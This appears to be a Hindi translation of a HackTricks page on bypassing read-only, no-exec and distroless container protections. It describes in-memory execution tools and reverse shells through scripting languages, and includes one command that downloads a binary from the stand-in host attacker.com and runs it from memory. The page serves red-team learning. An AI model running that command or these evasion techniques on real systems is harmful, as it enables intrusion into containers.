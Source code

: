 # FS सुरक्षा को बायपास करें: केवल पढ़ने के लिए / कोई निष्पादन नहीं / डिस्ट्रोलैस

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अ-हैक करने योग्य को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

## वीडियो

निम्नलिखित वीडियो में आप इस पृष्ठ में उल्लिखित तकनीकों को अधिक गहराई से समझ सकते हैं:

* [**DEF CON 31 - Linux मेमोरी हेरफेर का अन्वेषण करना**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng और इन-मेमोरी dlopen() के साथ स्टेल्थ घुसपैठ - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## केवल पढ़ने के लिए / कोई निष्पादन नहीं परिदृश्य

यह अधिक से अधिक सामान्य होता जा रहा है कि लिनक्स मशीनें **केवल पढ़ने के लिए (ro) फ़ाइल प्रणाली सुरक्षा** के साथ माउंट की जाती हैं, विशेष रूप से कंटेनरों में। इसका कारण यह है कि ro फ़ाइल प्रणाली के साथ कंटेनर चलाना **`readOnlyRootFilesystem: true`** को `securitycontext` में सेट करने जितना आसान है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, भले ही फ़ाइल प्रणाली ro के रूप में माउंट की गई हो, **`/dev/shm`** अभी भी लिखने योग्य होगा, इसलिए यह गलत है कि हम डिस्क में कुछ भी नहीं लिख सकते। हालाँकि, यह फ़ोल्डर **कोई निष्पादन सुरक्षा** के साथ माउंट किया जाएगा, इसलिए यदि आप यहाँ एक बाइनरी डाउनलोड करते हैं, तो आप **इसे निष्पादित नहीं कर पाएंगे**।

{% hint style="warning" %}
रेड टीम के दृष्टिकोण से, यह **बाइनरी डाउनलोड और निष्पादित करना जटिल बनाता है** जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर या `kubectl` जैसे एन्यूमरेटर)।
{% endhint %}

## सबसे आसान बायपास: स्क्रिप्ट

ध्यान दें कि मैंने बाइनरी का उल्लेख किया, आप **किसी भी स्क्रिप्ट को निष्पादित कर सकते हैं** जब तक कि इंटरप्रेटर मशीन के अंदर हो, जैसे कि **शेल स्क्रिप्ट** यदि `sh` मौजूद है या **पायथन** **स्क्रिप्ट** यदि `python` स्थापित है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी टूल्स को चलाने के लिए पर्याप्त नहीं है।

## मेमोरी बायपास

यदि आप एक बाइनरी को निष्पादित करना चाहते हैं लेकिन फ़ाइल प्रणाली ऐसा करने की अनुमति नहीं दे रही है, तो ऐसा करने का सबसे अच्छा तरीका है **इसे मेमोरी से निष्पादित करना**, क्योंकि **सुरक्षाएँ वहाँ लागू नहीं होती हैं**।

### FD + exec syscall बायपास

यदि आपके पास मशीन के अंदर कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे **Python**, **Perl**, या **Ruby**, तो आप मेमोरी से निष्पादित करने के लिए बाइनरी डाउनलोड कर सकते हैं, इसे एक मेमोरी फ़ाइल डिस्क्रिप्टर (`create_memfd` syscall) में स्टोर कर सकते हैं, जो उन सुरक्षा द्वारा संरक्षित नहीं होगा और फिर **`exec` syscall** को कॉल कर सकते हैं, जिसमें **fd को निष्पादित करने के लिए फ़ाइल के रूप में इंगित किया गया है**।

इसके लिए आप आसानी से प्रोजेक्ट [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) का उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह निर्दिष्ट भाषा में एक स्क्रिप्ट उत्पन्न करेगा जिसमें **बाइनरी संकुचित और b64 एन्कोडेड** होगी और इसे **डिकोड और अनकंप्रेस** करने के लिए निर्देश होंगे एक **fd** में जो `create_memfd` syscall को कॉल करके बनाया गया है और इसे चलाने के लिए **exec** syscall को कॉल किया गया है।

{% hint style="warning" %}
यह अन्य स्क्रिप्टिंग भाषाओं जैसे PHP या Node में काम नहीं करता क्योंकि उनके पास स्क्रिप्ट से कच्चे syscalls को कॉल करने का कोई डिफ़ॉल्ट तरीका नहीं है, इसलिए `create_memfd` को कॉल करके **मेमोरी fd** बनाना संभव नहीं है।

इसके अलावा, `/dev/shm` में एक फ़ाइल के साथ एक **नियमित fd** बनाना काम नहीं करेगा, क्योंकि आपको इसे चलाने की अनुमति नहीं होगी क्योंकि **कोई निष्पादन सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको **अपने स्वयं के प्रोसेस की मेमोरी को संशोधित करने** की अनुमति देती है, इसके **`/proc/self/mem`** को ओवरराइट करके।

इसलिए, **प्रक्रिया द्वारा निष्पादित असेंबली कोड को नियंत्रित करते हुए**, आप एक **शेलकोड** लिख सकते हैं और प्रक्रिया को "म्यूट" कर सकते हैं ताकि **कोई भी मनमाना कोड निष्पादित किया जा सके**।

{% hint style="success" %}
**DDexec / EverythingExec** आपको **मेमोरी** से अपने स्वयं के **शेलकोड** या **कोई बाइनरी** लोड और **निष्पादित** करने की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का स्वाभाविक अगला कदम है। यह एक **DDexec शेलकोड डेमोनाइज्ड** है, इसलिए जब भी आप **एक अलग बाइनरी चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की आवश्यकता नहीं है, आप बस DDexec तकनीक के माध्यम से memexec शेलकोड चला सकते हैं और फिर **नए बाइनरी लोड और चलाने के लिए इस डेमोन के साथ संवाद कर सकते हैं**।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) पर **memexec का उपयोग करके PHP रिवर्स शेल से बाइनरी निष्पादित करने** का एक उदाहरण पा सकते हैं।

### Memdlopen

DDexec के समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक **बाइनरी को लोड करने का एक आसान तरीका** प्रदान करती है ताकि बाद में उन्हें निष्पादित किया जा सके। यह निर्भरताओं के साथ बाइनरी लोड करने की अनुमति भी दे सकती है।

## Distroless Bypass

### What is distroless

Distroless कंटेनर केवल **विशिष्ट एप्लिकेशन या सेवा को चलाने के लिए आवश्यक न्यूनतम घटक** होते हैं, जैसे कि पुस्तकालय और रनटाइम निर्भरताएँ, लेकिन पैकेज प्रबंधक, शेल, या सिस्टम उपयोगिताओं जैसे बड़े घटकों को बाहर करते हैं।

Distroless कंटेनरों का लक्ष्य **अनावश्यक घटकों को समाप्त करके कंटेनरों के हमले की सतह को कम करना** और उन कमजोरियों की संख्या को कम करना है जिन्हें शोषित किया जा सकता है।

### Reverse Shell

एक distroless कंटेनर में आप **शायद `sh` या `bash` भी नहीं पाएंगे** ताकि एक नियमित शेल प्राप्त किया जा सके। आप `ls`, `whoami`, `id` जैसे बाइनरी भी नहीं पाएंगे... जो कुछ भी आप आमतौर पर एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **रिवर्स शेल** प्राप्त करने या **सिस्टम की गणना** करने में सक्षम **नहीं** होंगे जैसे आप आमतौर पर करते हैं।
{% endhint %}

हालांकि, यदि समझौता किया गया कंटेनर उदाहरण के लिए एक फ्लास्क वेब चला रहा है, तो फिर पायथन स्थापित है, और इसलिए आप एक **Python रिवर्स शेल** प्राप्त कर सकते हैं। यदि यह नोड चला रहा है, तो आप एक नोड रिव शेल प्राप्त कर सकते हैं, और अधिकांश किसी भी **स्क्रिप्टिंग भाषा** के साथ यही स्थिति है।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप **सिस्टम की गणना** कर सकते हैं भाषा की क्षमताओं का उपयोग करके।
{% endhint %}

यदि **कोई `read-only/no-exec`** सुरक्षा नहीं है तो आप अपने रिवर्स शेल का दुरुपयोग करके **फाइल सिस्टम में अपने बाइनरी लिख सकते हैं** और **उन्हें निष्पादित** कर सकते हैं।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनरों में ये सुरक्षा आमतौर पर मौजूद होंगी, लेकिन आप **इनसे बचने के लिए पिछले मेमोरी निष्पादन तकनीकों का उपयोग कर सकते हैं**।
{% endhint %}

आप [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) पर **कुछ RCE कमजोरियों का शोषण करने** के उदाहरण पा सकते हैं ताकि स्क्रिप्टिंग भाषाओं के **रिवर्स शेल** प्राप्त कर सकें और मेमोरी से बाइनरी निष्पादित कर सकें।

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अचूक को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
